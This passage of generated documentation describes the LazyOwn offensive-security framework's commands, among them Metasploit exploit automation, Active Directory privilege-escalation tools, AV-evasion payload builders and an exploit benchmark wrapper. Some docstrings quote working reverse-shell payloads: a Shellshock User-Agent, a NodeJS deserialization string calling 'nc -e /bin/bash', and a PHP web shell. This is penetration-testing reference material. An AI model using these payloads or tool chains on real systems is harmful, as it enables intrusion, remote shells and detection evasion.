a 64-bit DLL, or a Linux Blazor DLL. It first checks if MinGW-w64 is installed;
if not, it attempts to install it. The user must provide a filename for the
DLL, which will be created from the `sessions/rev.c` source file.
The function constructs the appropriate command to compile the DLL based on
the user's choice and executes it. If the user selects a 32-bit or 64-bit
compilation, the function also opens the `rev.c` file in a text editor for
modifications before compilation. For option 3, it executes a script to create
a Blazor DLL using the local host (self.params['lhost']) address to download the necessary payload.

Parameters:
- line (str): The name of the DLL file to be created.
            Must be provided by the user.

Usage:
- Choose "1" for 32-bit, "2" for 64-bit, or "3" for creating a Linux Blazor DLL.
- Ensure that shellcode is created beforehand using
the `lazymsfvenom` or `venom` options 13 or 14
to replace in `sessions/rev.c`.*
- `do_seo` (line 402) `def do_seo(self, line)` - *Performs a web seo fingerprinting scan using `lazyseo.py`.

1. Executes the `lazyseo.py` command to identify h1,h2,links,etc used by the target web application.

:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.
:param self.params['rhost']: The target web host to be scanned, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually perform web seo fingerprinting, use the following command:
    lazyseo.py <target_host>

Replace `<target_host>` with the URL or IP address of the web application you want to scan.

For example:
    lazyseo.py example.com*
- `do_padbuster` (line 437) `def do_padbuster(self, line)` - *Execute the PadBuster command for padding oracle attacks.

This function constructs and executes a PadBuster command to perform
a padding oracle attack on the specified URL. It requires the user
to provide a URL, a cookie with a hash, a plaintext value to compare,
and a specific byte position to attack.

Parameters:
- line (str): The input line containing the cookie, plaintext, and byte
            position. Expected format: 'cookie=<HASH> plaintext <byte_position>'.

Functionality:
- The function first checks if a URL is assign in the parameters.
- It then validates that the correct number of arguments is provided.
- If the arguments are valid, it constructs the PadBuster command and executes it.
- The command is also copied to the clipboard for convenience.

Usage Example:
- assign url http://target.com
- padbuster auth=<HASH> user=admin 8*
- `do_cacti_exploit` (line 483) `def do_cacti_exploit(self, line)` - *Automates the exploitation of the Cacti version 1.2.26 vulnerability
using the multi/http/cacti_package_import_rce exploit.

This function performs the following actions:
1. Sets up a Metasploit handler to listen for reverse connections.
2. Attempts to log in to the Cacti instance with provided credentials.
3. Checks if the target is vulnerable and uploads the malicious payload.
4. Triggers the payload to obtain a Meterpreter session.

Parameters:
line (str): The command line input for the cacti exploit function,
            though used directly in this implementation to set password.

Returns:
None*
- `do_shellshock` (line 568) `def do_shellshock(self, line)` - *Executes a Shellshock attack against a target.

This function constructs and sends a specially crafted HTTP request designed to exploit
the Shellshock vulnerability on a target server. The payload is embedded in the
'User-Agent' header, and when executed, it will open a reverse shell connection to
the attacker's machine.

Parameters:
- lport: Local port for the reverse shell connection, retrieved from self.params.
- self.params['lhost']: Local host for the reverse shell connection, retrieved from self.params.

The function first validates the local host (self.params['lhost']) and local port (lport) using
check_lhost() and check_lport(). If either validation fails, the function returns
without proceeding.

If the validation passes, the payload is created using the format:
'() { :; }; /bin/bash -c "nc -v {self.params['rhost']} {lport} -e /bin/bash -i"',
where self.params['rhost'] is the remote target's IP address and lport is the specified local port.

The function then attempts to send a GET request to the target URL (args.target)
with the crafted payload in the 'User-Agent' header. The server's response is captured
and printed using print_msg().

If any error occurs during the request, an error message is displayed using print_error().

Returns:
None*
- `do_powerserver` (line 630) `def do_powerserver(self, line)` - *This function generates a PowerShell script that retrieves reverse shell over http on a Windows system.
The script generated PowerShell reverse shell to execute command by curl command
is copied to the clipboard for easy execution.

Parameters:
line (str): This parameter is used to get the port to create the listener

The function does not return any value.
Example of use: curl -X POST http://victim:8080/ -d "Get-Process"*
- `do_sqli` (line 693) `def do_sqli(self, line)` - *Asks the user for the URL, database, table, and columns, and then executes the Python script
'modules/lazybsqli.py' with the provided parameters.

Parameters:
- def_func: Function to execute (not used in this example).
- line: Command line or additional input (not used in this example).

Example:
- do_bsqli(None, None)*
- `do_sharpshooter` (line 724) `def do_sharpshooter(self, line)` - *Executes a payload creation framework for the retrieval and execution of arbitrary CSharp source code.
SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS, and WSF.

Usage:
    sharpshooter [-o <output file>] --oa -t 20 rhost

This function installs SharpShooter if it is not already installed, prompts the user for the payload type,
and then runs SharpShooter to create a payload based on the specified type.

Parameters:
    line (str): The command line input for the function (not used directly in the current implementation).

Returns:
    None

Example:
    To create a payload using SharpShooter, ensure you have already generated shellcode using lazymsfvenom or venom,
    and then run this function to specify the payload type and generate the final payload file.*
- `do_shellfire` (line 768) `def do_shellfire(self, line)` - *Runs Shellfire with various options and allows generating payloads.

:param line: Not used in this implementation but reserved for future use.

:returns: None*
- `do_downloader` (line 892) `def do_downloader(self, line)` - *Generate a downloader command for files in the sessions directory.

This function lists all files in the 'sessions' directory recursively, excluding certain file extensions.
The user can select a file, choose a download method, and the command is generated and copied to the clipboard.

:param line: Optional output filename for the downloader command.
:returns: None*
- `do_eternal` (line 972) `def do_eternal(self, line)` - *Automates the EternalBlue (MS17-010) exploitation process using Metasploit.

This function performs the following tasks:
1. Selects the EternalBlue Metasploit module for Windows SMB exploitation.
2. Displays the current options for the module.
3. Sets the required payload options, such as `LHOST` and `RHOST`.
4. Executes the exploit and attempts to gain access to the target machine.

:param line: Command line input that provides the LHOST and RHOST.
:type line: str
:returns: None*
- `do_rejetto_hfs_exec` (line 1016) `def do_rejetto_hfs_exec(self, line)` - *HttpFileServer version 2.3. Vulnerable using the module rejetto_hfs_exec of metasploit
:param line: Command line input that provides the LHOST and RHOST.
:type line: str
:returns: None*
- `do_ms08_067_netapi` (line 1053) `def do_ms08_067_netapi(self, line)` - *SMB CVE-2008-4250. Vulnerable using the module ms08_067_netapi of metasploit
:param line: Command line input that provides the LHOST and RHOST.
:type line: str
:returns: None*
- `do_xss` (line 1090) `def do_xss(self, line)` - *Executes the XSS (Cross-Site Scripting) vulnerability testing procedure
using user-defined parameters and configurations.

This method guides the user through the process of setting up and
executing XSS payload injections against a specified target self.params['domain'].
It prompts the user for necessary input, including the XSS payload
URL, the target self.params['domain'], and the request timeout settings. The
function ensures that all required inputs are provided and valid
before proceeding with the injection process.

Parameters:
    line (str): A line of input that may contain additional parameters
                or commands (not utilized within this method).

Raises:
    ValueError: If the provided payload URL or target self.params['domain'] is empty,
                indicating that these are required for the injection
                process.

This method leverages user input for flexibility, allowing
customized testing scenarios for XSS vulnerabilities.*
- `do_template_helper_serializer` (line 1135) `def do_template_helper_serializer(self, line)` - *Handles the creation and serialization of a template helper.

This function performs the following tasks:
1. Retrieves the filename and data to be written from the input line.
2. Initializes a template file and writes the data to it.
3. Serializes the template data and outputs the result.

Args:
    line (str): The input line containing the filename and data in the format "filename, data".

Returns:
    None

Raises:
    None

Example:
    template_helper_serializer shell.php, <?php system($_GET[0]); ?>*
- `do_xsstrike` (line 1179) `def do_xsstrike(self, line)` - *Command xsstrike: Installs and runs XSStrike for finding XSS vulnerabilities.

This function performs the following tasks:
1. Checks if XSStrike is already cloned in the external/.exploit directory.
2. Clones the XSStrike repository if not present.
3. Installs required dependencies.
4. Prompts the user for a target URL, crawling level, request method, encoding, and additional XSStrike options.
5. Executes XSStrike for testing vulnerabilities, supporting multiple features like fuzzing, blind XSS injection, crawling, and more.

Args:
    line (str): Optional argument for specifying the target URL, crawling level, encoding, and other XSStrike options.

Returns:
    None

Example:
    xsstrike -u http://example.com/search.php?q=query --crawl -l 3*
- `do_sireprat` (line 1247) `def do_sireprat(self, line)` - *Command sireprat: Automates the setup and usage of SirepRAT to perform various attacks on a Windows IoT Core device.

This function performs the following tasks:
1. Installs required dependencies and sets up SirepRAT if not already installed.
2. Prompts the user to select from predefined attacks, including retrieving system information, executing commands, saving registry keys, and copying files.
3. Executes the selected attack on the target device, using the remote host IP stored in self.params['rhost'].

Args:
    line (str): Optional argument for specifying attack type directly.

Returns:
    None

Example:
    sireprat*
- `do_upload_bypass` (line 1359) `def do_upload_bypass(self, line)` - *Command upload_bypass: Automates the installation and execution of Upload_Bypass for performing file upload bypass tests.

This function performs the following tasks:
1. Clones and installs Upload_Bypass if not already installed.
2. Prompts the user for the type of execution mode (Detection, Exploitation, or Anti-Malware).
3. Prepares and executes the chosen mode based on user input: success message, forbidden extension, upload directory, and proxy settings.

Args:
    line (str): Optional argument for specifying execution mode, request file, success message, forbidden extension, and other Upload_Bypass options.

Returns:
    None

Example:
    upload_bypass --detect --request_file test --success 'File uploaded successfully' --extension php --upload_dir /uploads --burp*
- `do_pywhisker` (line 1420) `def do_pywhisker(self, line)` - *Executes the pyWhisker tool for manipulating the msDS-KeyCredentialLink attribute of a target user or computer.

This function performs the following actions:
1. Checks if pyWhisker is installed; if not, it clones the repository.
2. Executes various actions on the msDS-KeyCredentialLink attribute, allowing actions like listing, adding,
spraying, removing, clearing, exporting, or importing KeyCredentials for a specified target user or computer.

The command accepts different authentication options:
- NTLM (Clelazyt password or Pass-the-hash)
- Kerberos (Clelazyt password, Pass-the-key, Pass-the-cache)

Parameters:
line (str): Command argument specifying the pyWhisker action and options.
            Expected format:
                - -t TARGET_SAMNAME or -tl TARGET_SAMNAME_LIST for the target account(s)
                - -a ACTION to specify the action (list, add, spray, remove, clear, info, export, import)
                - Optional flags for authentication and connection

Returns:
None*
- `do_owneredit` (line 1470) `def do_owneredit(self, line)` - *Executes the Impacket owneredit tool for manipulating ownership of Active Directory objects.

This function performs the following actions:
1. Prompts the user for necessary parameters if not provided.
2. Executes the command to change the owner of a specified target in Active Directory.

The command accepts the following parameters:
- New owner (user) for the target object.
- Target object to be manipulated.
- Domain credentials for authentication.
- DC IP address for the self.params['domain'] controller.

Parameters:
line (str): Command argument specifying the new owner and target options.
            Expected format:
                - -new-owner NEW_OWNER for the new owner
                - -target TARGET_OBJECT for the target object
                - Required flags for authentication and connection

Returns:
None*
- `do_gettgtpkinit_py` (line 1516) `def do_gettgtpkinit_py(self, line)` - *Executes the gettgtpkinit.py tool from PKINITtools to request a TGT using Kerberos PKINIT with a PFX or PEM certificate.

This function performs the following actions:
1. Checks if PKINITtools is installed; if not, it clones the repository and installs dependencies.
2. Requests a TGT using the specified PFX or PEM certificate and outputs the TGT to the specified ccache file.

Parameters:
line (str): Command arguments specifying the certificate file and ccache location.
            Expected format:
                - self.params['domain']/username ccache
                - Additional flags like -cert-pfx file, -pfx-pass password, -cert-pem file, etc.

Returns:
None*
- `do_gets4uticket_py` (line 1567) `def do_gets4uticket_py(self, line)` - *Executes the gets4uticket.py tool from PKINITtools to request an S4U2Self service ticket using Kerberos.

This function performs the following actions:
1. Checks if PKINITtools is installed; if not, it clones the repository and installs dependencies.
2. Requests a service ticket using the S4U2Self protocol and outputs it to the specified ccache file.

Parameters:
line (str): Command arguments specifying the kerberos_connection_url, SPN, target user, and ccache.
            Expected format:
                - kerberos_connection_url spn targetuser ccache
                - Additional flags like -v for verbose output.

Returns:
None*
- `do_aclpwn_py` (line 1614) `def do_aclpwn_py(self, line)` - *Executes the aclpwn.py tool to find and exploit ACL paths for privilege escalation in an Active Directory environment.

This function performs the following actions:
1. Checks if aclpwn is installed; if not, it installs the package.
2. Finds an exploit path using specified starting and target points in Active Directory.
3. Executes the path to escalate privileges if the path is found.

Parameters:
line (str): Command arguments specifying the find and target points, self.params['domain'], and optional flags.
            Expected format:
                - -f starting_point -ft starting_type -d self.params['domain']
                - Additional flags like -t target, -tt target_type, --server, -dry, --restore, etc.

Returns:
None*
- `do_addspn_py` (line 1662) `def do_addspn_py(self, line)` - *Executes the addspn.py tool to manage Service Principal Names (SPNs) on Active Directory accounts via LDAP.

This function performs the following actions:
1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.
2. Adds, removes, or queries SPNs on the specified target based on the provided options.

Parameters:
line (str): Command arguments specifying the target hostname, user credentials, and SPN actions.
            Expected format:
                - hostname user password target spn -options
                - Options include:
                - -r to remove an SPN
                - -q to query current SPNs
                - -a to add SPN via msDS-AdditionalDnsHostName

Returns:
None*
- `do_printerbug_py` (line 1706) `def do_printerbug_py(self, line)` - *Executes the printerbug.py tool to trigger the SpoolService bug via RPC backconnect.

This function performs the following actions:
1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.
2. Executes the printerbug tool to attempt an RPC backconnect to the specified attacker host.

Parameters:
line (str): Command arguments specifying the target and attacker host.
            Expected format:
                - target_username@target_host attacker_host

Returns:
None*
- `do_krbrelayx_py` (line 1760) `def do_krbrelayx_py(self, line)` - *Executes the krbrelayx.py tool for Kerberos relaying or unconstrained delegation abuse.

This function performs the following actions:
1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.
2. Relays Kerberos tickets or abuses unconstrained delegation to access target services.

Parameters:
line (str): Command arguments specifying the target and options.
            Expected format:
                - target options
                - Options include:
                - -t target_host to specify the target host
                - -l loot directory to save TGTs or dump information

Returns:
None*
- `do_autoblody` (line 1805) `def do_autoblody(self, line)` - *Executes the autobloody tool for automating Active Directory privilege escalation paths.

This function performs the following actions:
1. Checks if autobloody is installed; if not, it clones the repository and installs dependencies.
2. Executes the autobloody command to find and exploit privilege escalation paths.

Parameters:
line (str): Command arguments specifying the source and target objects and options.
            Expected format:
                - -u username for NTLM authentication
                - -p password for NTLM authentication
                - --host domain_controller_ip for the IP of the Domain Controller
                - -dp neo4j_password for Neo4j database password
                - -ds source_label for the source node label in BloodHound
                - -dt target_label for the target node label in BloodHound

Returns:
None*
- `do_unicode_WAFbypass` (line 1869) `def do_unicode_WAFbypass(self, line)` - *        We open a Netcat listener on port 443 and attempt to exploit NodeJS deserialization by sending the
        following payload:
        {"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('nc -e /bin/bash 10.10.xx.xx 443',function(error,stdout,stderr) {console.log (stdout) });
}()"}
        Some WAF can be bypassed with the use of unicode characters.

        Generate an obfuscated payload, encode it in base64, and append the SSH public key to the authorized_keys file.

        Args:
            ip_address (str): The IP address for the reverse shell connection.
            port (int): The port for the reverse shell connection.
            ssh_public_key (str): The SSH public key to add to authorized_keys.

        Returns:
            str: The base64-encoded obfuscated payload.

        *
- `do_sqli_mssql_test` (line 1924) `def do_sqli_mssql_test(self, line)` - *Initiates a reverse MSSQL shell by starting an HTTP server to handle incoming connections and exfiltrate data.

This function does the following:
1. Starts an HTTP server to listen for connections from the MSSQL server.
2. Intercepts and decodes responses from the target server.
3. Prompts the user to enter commands, sends them to the target, and displays the output.

Parameters:
line (str): Unused command argument from the cmd2 prompt.

Returns:
None*
- `do_pyoracle2` (line 1962) `def do_pyoracle2(self, line)` - *Executes the pyOracle2 tool for performing padding oracle attacks.

This function performs the following actions:
1. Verifies the presence of the pyOracle2 tool; if not installed, it clones the repository and installs dependencies.
2. Prompts the user for configuration parameters or retrieves them from self.params to create a job-specific configuration file.
3. Executes the pyOracle2 tool using the generated configuration file and specified options.

Parameters:
line (str): Command arguments specifying additional tool options if required.
            Expected format: [optional parameters]

Returns:
None*
- `do_lfi` (line 2044) `def do_lfi(self, line)` - *Exploits a potential Local File Inclusion (LFI) vulnerability by crafting
and sending HTTP GET requests to a specified URL.

The user can specify the target URL directly via the `line` parameter or
provide it interactively. If no URL is provided, the method uses a default
value stored in `self.params['url']`. Users are then prompted to specify
the file to retrieve from the server, defaulting to `/etc/passwd`.

Args:
    line (str): Optional URL input provided directly in the command line.
                If not supplied, a default URL from `self.params['url']`
                will be used.

Behavior:
    - Continuously prompts the user to specify a file to fetch via the
    target LFI vulnerability.
    - Sends a GET request to the constructed URL and prints the server's
    response to the console.
    - Allows users to inspect different files on the target server by
    modifying the file path interactively.*
- `do_greatSCT` (line 2086) `def do_greatSCT(self, line)` - *Executes the GreatSCT tool for generating payloads that bypass antivirus and application whitelisting solutions.

This function performs the following actions:
1. Verifies the presence of the GreatSCT tool; if not installed, it clones the repository and installs dependencies.
2. Configures and generates the payload using user-provided or default parameters.
3. Executes the GreatSCT tool with the specified options.

Parameters:
line (str): Command arguments specifying additional tool options if required.
            Expected format: [--ip <IP> --port <PORT> --tool <TOOL> --payload <PAYLOAD>]

Returns:
None*
- `do_sqsh` (line 2131) `def do_sqsh(self, line)` - *Executes the Impacket sqsh tool for manipulating ownership of Active Directory objects.

This function performs the following actions:
1. Prompts the user for necessary parameters if not provided.
2. Executes the command to change the owner of a specified target in Active Directory.

The command accepts the following parameters:
- New owner (user) for the target object.
- Target object to be manipulated.
- Domain credentials for authentication.
- DC IP address for the self.params['domain'] controller.

Parameters:
line (str): Command argument specifying the new owner and target options.
            Expected format:
                - -new-owner NEW_OWNER for the new owner
                - -target TARGET_OBJECT for the target object
                - Required flags for authentication and connection

Returns:
None*
- `do_jwt_tool` (line 2176) `def do_jwt_tool(self, line)` - *Uses the jwt_tool to analyze, tamper, or exploit JSON Web Tokens (JWTs).

This function performs the following actions:
1. Verifies the presence of jwt_tool; if not installed, it clones the repository and installs dependencies.
2. Accepts a JWT token as input or uses the provided argument for analysis.
3. Executes jwt_tool with the specified options and prints the results.

Parameters:
line (str): Command argument containing a JWT token to analyze. If not provided, prompts the user for a token.

Returns:
None*
- `do_filtering` (line 2220) `def do_filtering(self, line)` - *Applies various filtering techniques to the given command line by modifying each character or word appropriately.

This function takes any command and generates variations of it using several filtering techniques, including:
1. Quote filtering.
2. Slash filtering.

Parameters:
line (str): The input command to be filtered.

Returns:
None*
- `do_lol` (line 2246) `def do_lol(self, line)` - *Exploits a target by injecting a malicious payload and collecting admin information.

This function performs the following steps:
1. Logs in to the application with provided credentials.
2. Injects a malicious payload to elevate the role of a user to 'admin.'
3. Executes a secondary payload to exfiltrate admin tokens by abusing '/api/info.'
4. Prepares for further exploitation using '/admin' and '/api/json-rpc'.

Parameters:
line (str): Additional parameters for the target.

Returns:
None*
- `do_utf` (line 2331) `def do_utf(self, line)` - *Encode a given payload into UTF-16 escape sequences.

This function takes a payload string and encodes each character into its
UTF-16 hexadecimal representation (e.g., `A` becomes `A`). If no
payload is provided as input, it prompts the user to input one, with a
default value of `' or 1=1-- -`.

Parameters:
    line (str): The input payload to encode. If empty, the user is prompted
    to provide one interactively.

Returns:
    None: The encoded payload is printed to the console.*
- `do_digdug` (line 2375) `def do_digdug(self, line)` - *Executes Dig Dug to inflate the size of an executable file, leveraging pre-configured settings
and interactive input for minimal user effort.

This function integrates with the Dig Dug tool to increase an executable's size by appending
dictionary words. It automates repository setup, selects the input file from user prompts or defaults,
and uses sensible configurations to execute the inflation process. Dig Dug is particularly useful
for evading AV/EDR detections by exceeding size thresholds for analysis.

Behavior:
    - Automatically clones the Dig Dug repository if not already present in `external/.exploit/DigDug`.
    - Calls the `venom` command to prepare the necessary payloads for execution.
    - Prompts the user to select an input executable and specify the desired size increase.
    - Uses a default dictionary (`google-10000-english-usa-gt5.txt`) for padding.

Requirements:
    - A Python environment with required dependencies.
    - Executable files available in the working directory or `sessions`.

Usage:
    Invoke this function to inflate the size of a generated payload or user-specified executable.
    Interactive prompts will guide the input selection and size configuration.

Examples:
    1. Increase the size of a selected payload by 100 MB:
        >>> digdug

    2. Use the default configurations to inflate an executable:
        No additional parameters are required. The user is prompted for size and file selection.*
- `do_sshexploit` (line 2433) `def do_sshexploit(self, line)` - *Exploits OpenSSH vulnerability CVE-2023-38408 via the PKCS#11 feature of the ssh-agent.

Steps:
1. Attacker connects via SSH to a target server.
2. Identify and export the SSH_AUTH_SOCK environment variable.
3. Send crafted shellcode to exploit the PKCS#11 vulnerability.
4. Load malicious libraries via ssh-add and trigger SIGSEGV for code execution.

Usage:
    do_sshexploit

Example:
    do_sshexploit

Note:
    This function is for educational purposes only. Unauthorized exploitation is illegal.*
- `do_excelntdonut` (line 2502) `def do_excelntdonut(self, line)` - *Generates an Excel 4.0 (XLM) macro from a provided C# source file using EXCELntDonut.

This function:
    - Installs EXCELntDonut dependencies if not already installed.
    - Clones the EXCELntDonut repository if not present.
    - Compiles the provided C# source file into shellcode.
    - Generates the XLM macro and saves it to a specified output file.

Behavior:
    - Requires `mono-complete` and `pip3` with required Python packages installed.
    - Accepts parameters for input file, references, sandbox checks, obfuscation, and output file.
    - Outputs the generated macro in a `.txt` or `.csv` format.

Usage:
    excelntdonut -f <source_file.cs> -r <references> [--sandbox] [--obfuscate] [-o <output_file>]

Example:
    excelntdonut -f payload.cs -r System.Windows.Forms.dll --sandbox --obfuscate -o macro.txt*
- `do_ntpdate` (line 2558) `def do_ntpdate(self, line)` - *Synchronizes the system clock with a specified NTP server.

This method constructs the target NTP server address using the self.params['domain'] and subdomain
parameters. It then prompts the user to confirm or modify the target address.
Finally, it executes the `ntpdate` command to synchronize the system clock with
the specified NTP server.

:param line: The command line input (not used in this method).
:type line: str
:return: None*
- `do_adcs_check` (line 2582) `def do_adcs_check(self, line)` - *Check Active Directory Certificate Services for ESC1-ESC8 vulnerabilities.

Usage: adcs_check <username> <password> <domain> <dc_ip> [ntlm_hash]

Enumerates certificate templates and maps them to applicable
ESC attack techniques. Uses Certipy under the hood.
Auto-installs certipy-ad if missing.*
- `do_chain` (line 2641) `def do_chain(self, line)` - *Run autonomous exploitation chain: recon -> vuln -> exploit -> post-exploit.

Usage:
    chain [rhost] [nmap_xml_path]   Analyze target and generate exploit plan
    chain report                     Show last chain report

If no rhost is given, uses the current rhost from payload.json.
If no nmap_xml_path is given, auto-discovers all scan_*.nmap.xml in sessions/.*
- `do_exploit_recommend` (line 2738) `def do_exploit_recommend(self, line)` - *AI-powered exploit recommendation — matches discovered services to CVEs.

Usage:
    exploit_recommend               Show top 10 recommendations
    exploit_recommend <N>           Show top N recommendations
    exploit_recommend json          Output as JSON*

#### `exploitgym.py`
**Path:** `cli/commands/exploitgym.py`
**File Doc:** *ExploitGym CLI command set — real-world exploit benchmark harness.  Wraps the sunblaze-ucb/exploitgym benchmark (userspace, V8, Linux kernel tasks) behind LazyOwn. The wrapper is adaptive: it detects whether the ExploitGym harness is installed and ready, guides setup when it is not, and reuses the Red Team Gym ELO/leaderboard pipeline for scored results.  The harness is dual-use and MUST be run only against ExploitGym's own containerised, network-isolated task environments.*

**Classes:**
- `ExploitGymCommandSet` (line 36) `class ExploitGymCommandSet(LazyOwnCommandSet)` - *ExploitGym — realistic vulnerability-to-exploit benchmark tasks.*

**Methods:**
- `do_exploitgym` (line 43) `def do_exploitgym(self, line)` - *ExploitGym — real-world exploit benchmark via containerised tasks.

Usage:
    exploitgym status                 — check harness readiness
    exploitgym setup [step ...]       — automate install (clone/deps/data/validate/squid/images)
    exploitgym list [domain] [--limit N]
    exploitgym pull <task_id>         — pull the task Docker image
    exploitgym run <task_id> [--model M] [--no-mitigations]
    exploitgym verify <task_id>       — check a captured flag on record
    exploitgym score <task_id> [--failed] [--techniques t1,t2]
    exploitgym docs                   — open the evaluation docs

Domain filter: userspace | v8 | kernel.

Examples:
    exploitgym status
    exploitgym list kernel --limit 5
    exploitgym pull cve-2021-XXXX
    exploitgym run cve-2021-XXXX --model claude --no-mitigations
    exploitgym score cve-2021-XXXX*
- `_egym_status` (line 90) `def _egym_status(self, _args)` - *Show ExploitGym harness readiness.*
- `_egym_setup` (line 120) `def _egym_setup(self, args)` - *Automate the ExploitGym harness installation.*
- `_egym_list` (line 149) `def _egym_list(self, args)` - *List ExploitGym tasks, optionally filtered by domain.*
- `_egym_pull` (line 181) `def _egym_pull(self, args)` - *Pull the Docker image for a task.*
- `_egym_run` (line 198) `def _egym_run(self, args)` - *Run the agent against an ExploitGym task.*
- `_egym_verify` (line 245) `def _egym_verify(self, args)` - *Verify a captured flag on record for a task.*
- `_egym_score` (line 258) `def _egym_score(self, args)` - *Award Red Team Gym ELO for a task outcome.*
- `_egym_docs` (line 289) `def _egym_docs(self, _args)` - *Print the ExploitGym evaluation documentation link.*

#### `help_ui.py`
**Path:** `cli/commands/help_ui.py`
**File Doc:** *Help, tutorial and phase guidance extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.*

**Classes:**
- `HelpUiCommandSet` (line 29) `class HelpUiCommandSet(LazyOwnCommandSet)` - *Help, tutorial and phase guidance.*

**Functions:**
- `_save` (line 67) `def _save(key, value)`

**Methods:**
- `do_wizard` (line 36) `def do_wizard(self, line)` - *Guided first-run setup wizard — configure rhost, lhost, domain, wordlists and more.

Walks the operator through the seven essential configuration values with
auto-detection (lhost from routing table, wordlist paths from SecLists),
live ping validation for rhost, and a readiness summary at the end.

Usage:
    ``wizard``            — start interactive setup
    ``wizard --tutorial`` — extended help text for first-time operators
    ``wizard --check``    — show readiness summary only, no prompts
    ``wizard --show``     — show current values only, no prompts
    ``wizard --only=rhost,lhost`` — edit selected fields only
    ``wizard --quick``    — auto-detect defaults without any prompts
    ``wizard --non-interactive [--rhost X] [--lhost Y] [--domain Z]``
                           — apply values without prompting (Docker/CI)

Both novice and experienced operators can use this:
- Novices: step-by-step prompts with clear descriptions; pass
  ``--tutorial`` for in-depth explanations of every field.
- Experts: press Enter to accept auto-detected values; Ctrl-C to abort.*
- `do_tutorial` (line 151) `def do_tutorial(self, line)` - *Interactive tutorial that walks you through the golden path.

Guides a new operator step-by-step through:
    ping -> lazynmap -> auto_populate -> facts_show -> recommend_next

Usage:
    ``tutorial``         — run the tutorial (skips if already completed)
    ``tutorial --force`` — replay even if already completed*
- `do_help_phase` (line 175) `def do_help_phase(self, line)` - *List all commands for a given kill-chain phase.

Usage:
    ``help_phase recon``       — list recon commands
    ``help_phase exploit``     — list exploit commands
    ``help_phase``             — list all available phases

Available phases: recon, enum, exploit, postexp, persist, privesc,
cred, lateral, exfil, c2, report, misc.*
- `do_help_status` (line 208) `def do_help_status(self, line)` - *Show which session requirements are met (rhost, creds, domain, OS).

Useful to quickly check what is configured before running a command.

Usage: ``help_status``*
- `do_ctx_help` (line 221) `def do_ctx_help(self, line)` - *Show contextual help for a command: description, phase, requirements, tips.

Unlike plain 'help', this shows whether the command needs rhost,
credentials, or domain, and gives phase-specific tips.

Usage:
    ``ctx_help lazynmap``     — contextual help for lazynmap
    ``ctx_help evil``         — contextual help for evil-winrm*
- `do_ctx` (line 242) `def do_ctx(self, line)` - *Print a single-line operator context: rhost, lhost, domain, phase, os, creds.

No arguments. Reads payload.json and sessions/world_model.json. Fast —
suitable to run between every command for situational awareness.

Usage:
    ``ctx``*
- `do_command_explorer` (line 254) `def do_command_explorer(self, line)` - *Interactive command explorer organized by goals and phases.

Browse commands by what you want to accomplish, not by category.
Shows command names, descriptions, and aliases for quick discovery.

Usage:
    ``command_explorer``            — show all goals
    ``command_explorer web``        — show web-related commands
    ``command_explorer smb_windows`` — show SMB/Windows commands
    ``command_explorer search nmap`` — search commands by keyword*
- `do_config_status` (line 287) `def do_config_status(self, line)` - *Show configuration status grouped by category with set/missing indicators.

Replaces the raw 'get' (payload.json dump) with a human-friendly
overview showing which fields are configured, which need attention,
and how to set them.

Usage:
    ``config_status``           — full grouped status
    ``config_status --quick``   — show only missing required fields*
- `do_tui_theme` (line 308) `def do_tui_theme(self, line)` - *Switch the TUI colour theme used by the splash and styled output.

Themes change the accent palette of LazyOwn's rich output (the
first-run splash overlay and any semantic styled panels). The
selection persists to ``payload.json`` under ``tui_theme`` so it
survives shell restarts.

Usage:
    ``tui_theme``          — list available themes, mark the active one
    ``tui_theme <name>``   — switch to a named theme (case-insensitive)
    ``tui_theme cycle``    — advance to the next theme in order
    ``tui_theme prev``     — step back to the previous theme
    ``tui_theme reset``    — return to the default theme*
- `do_doctor` (line 334) `def do_doctor(self, line)` - *Preflight environment health check — verify the install is ready.

Complements ``wizard``. Where ``wizard --check`` validates your
configuration (payload.json values), ``doctor`` validates the
installation itself: Python version, active virtual environment,
importability of the third-party packages install.sh provisions, the
C2 TLS certificates, payload.json, SecLists, and external kill-chain
tooling.

Usage:
    ``doctor``       — run every check and print a status table
    ``doctor --fix`` — interactively offer to install missing packages
    ``doctor -y``    — auto-fix all issues without prompting

Blocking failures (missing required packages, payload.json, or an
unsupported Python) are highlighted in red; warnings cover optional
features that will simply be skipped at runtime.*
- `do_karma` (line 369) `def do_karma(self, line)` - *Show ELO score, karma rank and exploration progress for this operator.

Reads ``sessions/engagement_state.json`` (curiosity + VRI engine) and
prints the operator's ELO, karma name (Noob → Godlike), commands
discovered, phases entered, and steps remaining until the next VRI
reward.  Useful to gauge progress on the curiosity-driven adoption
loop without re-running another command.

Usage:
    ``karma``*
- `do_tgrep` (line 404) `def do_tgrep(self, line)` - *Search across all previous command outputs and session logs.

Searches in: sessions/_cli_transcript.jsonl (full outputs),
sessions/LazyOwn_session_report.csv (command list), and
sessions/logs/*.txt (tool output files). Useful for recalling
credentials, open ports, or any string from earlier in the session.

Usage:
    ``tgrep <pattern>``
    ``tgrep password``
    ``tgrep '10\.10\.11'``
    ``tgrep Administrator``*
- `do_phase` (line 421) `def do_phase(self, line)` - *Get or set the current kill-chain phase.

When called without arguments, shows the current phase and the
full kill-chain progress bar. When called with a phase name,
updates sessions/world_model.json — the dashboard reflects the
change on its next refresh (within 5 s).

Valid phases: recon scan enum exploit privesc lateral exfil report

Usage:
    ``phase``               — show current phase and progress bar
    ``phase exploit``       — move to exploit phase
    ``phase privesc``       — advance to privilege escalation

The phase drives the inline hints and the kill-chain panel in the
operator dashboard. Advancing a phase also marks the previous one
as completed in the dashboard progress bar.*
- `do_killchain` (line 455) `def do_killchain(self, line)` - *Show the unified kill-chain progress and control auto-refresh.

Displays every kill-chain phase with its status derived from the
WorldModel (the single source of truth), plus the operator-set
override when it differs.

A compact progress bar can also be surfaced automatically after
commands. Use ``killchain auto on|off|N`` to enable it every N
commands, or set the phase-change trigger that fires whenever the
active phase advances.

Usage:
    ``killchain``            — show unified kill-chain progress bar
    ``killchain auto on``    — show bar periodically after commands
    ``killchain auto off``   — disable auto-refresh
    ``killchain auto 5``     — show bar every 5 commands*

#### `infra.py`
**Path:** `cli/commands/infra.py`
